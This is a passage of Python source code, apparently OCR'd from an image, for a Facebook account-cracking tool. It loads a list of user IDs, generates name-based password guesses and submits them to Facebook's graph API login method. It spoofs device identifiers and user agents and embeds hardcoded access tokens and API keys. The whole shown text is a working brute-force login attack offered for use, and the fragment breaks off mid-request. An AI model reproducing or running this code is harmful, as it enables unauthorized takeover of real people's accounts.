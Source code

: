 class main_crack():
    def __init__(self):
        self.id=[]
    def crack(self,id):
        global methods
        clear()
        self.file = input('Put File Name : ')
        try:
            self.id = open(self.file).read().splitlines()
            self.pasw()
        except FileNotFoundError:
            print('Opps File Not Found ...')
            time.sleep(2)
            os.system('clear')
            print(logo)
            print('Try Again ...')
            time.sleep(2)
            main_crack().crack(id)
            
    def methodA(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[SSB] {loop} | M1 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildvsskj(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
